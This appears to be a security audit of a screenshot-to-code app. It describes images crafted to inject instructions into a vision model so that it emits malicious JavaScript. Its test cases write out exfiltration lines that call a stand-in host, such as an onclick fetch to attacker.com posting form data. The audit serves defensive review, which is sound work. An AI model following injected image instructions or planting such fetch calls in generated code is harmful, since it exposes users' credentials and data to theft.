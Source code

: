 - **Vulnerability Name**: Unsanitized AI-Generated Code Output
  **Description**:
  1. The backend receives a malicious image input from an attacker, which is intended to trick the AI into generating harmful code (e.g., JavaScript with RCE/XSS payloads).
  2. The system processes the image via the FastAPI endpoint and sends it to the AI (e.g., GPT-4 Vision or Claude Sonnet 3.7) with minimal constraints.
  3. The AI generates code (e.g., HTML with embedded scripts) that includes dangerous logic such as `eval()`, `fetch()` calls to attacker-controlled endpoints, or inline JavaScript with malicious functionality.
  4. The backend’s `extract_html_content` and `generate_images` functions process the AI response but do **not** perform any validation or sanitization of the generated code.
  5. The raw, unfiltered code is returned to the user via the WebSocket endpoint `/generate-code`, who may then execute it in their environment.
  **Impact**:
  A malicious user can craft an image that instructs the AI to generate harmful code (e.g., JavaScript for credential theft, RCE, or XSS). When the user implements the code, it executes in their browser or server, leading to unauthorized access, data exposure, or complete system compromise.
  **Vulnerability Rank**: Critical
  **Currently Implemented Mitigations**:
  - None. The code does not include any validation, sanitization, or static analysis of the AI-generated output.
  **Missing Mitigations**:
  - Lack of input validation on the AI’s generated code.
  - No checks for dangerous keywords (e.g., `eval`, `fetch`, `exec`, `<script>`) or patterns (e.g., event listeners with malicious payloads).
  - No sandboxing or dynamic analysis of the generated code before delivery to the user.
  - No rate limiting on API endpoints to prevent abuse.
  **Preconditions**:
  - The attacker must have access to the hosted version of the app or a local instance (via Docker or manual setup).
  - The attacker must craft an image (or video) that visually mimics UI components requiring malicious JavaScript.
  **Source Code Analysis**:
  - In `routes/generate_code.py`, the AI-generated code is processed via `extract_html_content` (which trims only non-HTML parts) and then returned directly to the user:
    ```python
    completions = [extract_html_content(completion) for completion in completions]
    ...
    await send_message("setCode", updated_html, index)
    ```
  - The system prompts (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`, `REACT_TAILWIND_SYSTEM_PROMPT`) explicitly allow usage of JavaScript for interactivity, leaving the door open for malicious scripts.
    ```python
    "- Make sure to always get the layout right... using JS.
    - Use jQuery for interactions..."
    ```
  - Mock responses in `mock_llm.py` include JavaScript (e.g., jQuery code in `MORTGAGE_CALCULATOR_VIDEO_PROMPT_MOCK`), confirming that the backend expects and delivers code with scripts.
  **Security Test Case**:
  1. Upload an image (or video) to the hosted instance that visually represents a UI element with a malicious JavaScript trigger (e.g., a button with `onclick="fetch('attacker.com/stolen-data')"`).
  2. The AI generates code that includes the `onclick` handler with the attacker’s payload.
  3. Download the generated code and verify the presence of the malicious script.
  4. Deploy the code in a local environment and trigger the malicious JavaScript to observe data exfiltration or RCE.

- **Vulnerability Name**: Exposure to Third-Party CDN Compromise
  **Description**:
  1. The AI is instructed to include third-party libraries (e.g., jQuery, Bootstrap, React scripts) via hardcoded CDN URLs.
  2. An attacker compromises one of these CDNs (e.g., cdn.tailwindcss.com or cdnjs.cloudflare.com) to inject malicious code into the referenced files.
  3. The generated code uses these compromised CDN links, causing the malicious scripts to execute in the user’s environment when the code is deployed.
  **Impact**:
  If a CDN is compromised, users could unknowingly include remote JavaScript that steals credentials, executes arbitrary code, or manipulates the app’s behavior.
  **Vulnerability Rank**: High
  **Currently Implemented Mitigations**:
  - None. The backend uses fixed CDN URLs without any integrity checks.
  **Missing Mitigations**:
  - Lack of subresource integrity (SRI) hashes for third-party scripts.
  - No code to validate the integrity of CDN-hosted libraries before inclusion.
  **Preconditions**:
  - The attacker must have control over or ability to compromise a third-party CDN used by the system.
  - The user must deploy the generated code that references the compromised CDN.
  **Source Code Analysis**:
  - All system prompts (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`, `REACT_TAILWIND_SYSTEM_PROMPT`) explicitly require third-party CDN URLs for libraries:
    ```python
    "- Use this script to include Tailwind: <script src='https://cdn.tailwindcss.com'></script>"
    ```
  - The mock code in `mock_llm.py` includes CDN references such as `https://code.jquery.com/jquery-3.7.1.min.js`, which are vulnerable to CDN compromise.
  **Security Test Case**:
  1. Compromise a third-party CDN (e.g., host a malicious script on a temporarily hijacked domain like cdn.tailwindcss.com).
  2. Generate code via the app that uses the CDN (e.g., request HTML with Tailwind).
  3. Deploy the generated code and confirm that the malicious script from the compromised CDN executes.

- **Vulnerability Name**: Overly Permissive AI Prompts Enable Malicious Output
  **Description**:
  1. The system prompts for AI models (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`) explicitly require the AI to "generate the full code" without mentioning security restrictions.
  2. An attacker crafts an image that visually includes code comments or UI elements that suggest malicious JavaScript logic (e.g., a button labeled "Phishing Login").
  3. The AI follows the prompt to produce fully functional code, including the attacker’s malicious logic.
  **Impact**:
  The AI’s lack of security constraints in prompts allows generation of harmful code patterns (e.g., credential phishing pages).
  **Vulnerability Rank**: Critical
  **Currently Implemented Mitigations**:
  - None. The system prompts focus on UI accuracy and code completeness but omit any security guidelines.
  **Missing Mitigations**:
  - No prompt engineering to explicitly disallow dangerous JavaScript patterns.
  - No validation that the AI adheres to security boundaries (e.g., disallow event listeners with `eval()` or external script injection).
  **Preconditions**:
  - The attacker must trick the AI into generating code with malicious behaviors.
  **Source Code Analysis**:
  - The system prompts in `prompts/screenshot_system_prompts.py` and `prompts/claude_prompts.py` instruct the AI to prioritize exact replication but lack safeguards:
    ```python
    "- Do not add comments... but WRITE THE FULL CODE."
    "- Make sure the app looks *exactly* like the screenshot."
    ```
  **Security Test Case**:
  1. Provide an image of a login form with a "Forget Password" button.
  2. In the image, include a hidden or visual cue that the button triggers `fetch('attacker.com', {method: 'POST', data: form_data})`.
  3. Generate code via the app and confirm that the JavaScript (`fetch` call) is included in the output.

